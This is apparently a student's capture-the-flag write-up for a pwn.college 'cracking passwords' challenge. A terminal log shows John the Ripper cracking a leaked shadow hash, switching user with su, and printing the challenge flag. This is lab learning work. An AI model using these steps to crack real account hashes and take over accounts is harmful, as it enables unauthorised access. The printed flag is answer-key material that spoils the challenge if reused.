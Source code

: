 # Challenge Name
cracking passwords

## My solve
**Flag:** `pwn.college{cCYbxqGhOYxWP1RwXXORK7ISPau.QX3UDN1wyN0gjNzEzW}`

```bash
Connected!
hacker@users~cracking-passwords:~$ john /challenge/shadow-leak
Loaded 1 password hash (crypt, generic crypt(3) [?/64])
Press 'q' or Ctrl-C to abort, almost any other key for status
aardvark         (zardus)
1g 0:00:00:21 100% 2/3 0.04642g/s 270.3p/s 270.3c/s 270.3C/s Johnson..buzz
Use the "--show" option to display all of the cracked passwords reliably
Session completed
hacker@users~cracking-passwords:~$ su zardus
Password:
zardus@users~cracking-passwords:/home/hacker$ /challenge/run
Congratulations, you have become Zardus! Here is your flag:
pwn.college{cCYbxqGhOYxWP1RwXXORK7ISPau.QX3UDN1wyN0gjNzEzW}
```
## Incorrect tangents I went on
None

## What I learned
I learned to crack passwords using the john the ripper and using su to get the required flag

## References 
None
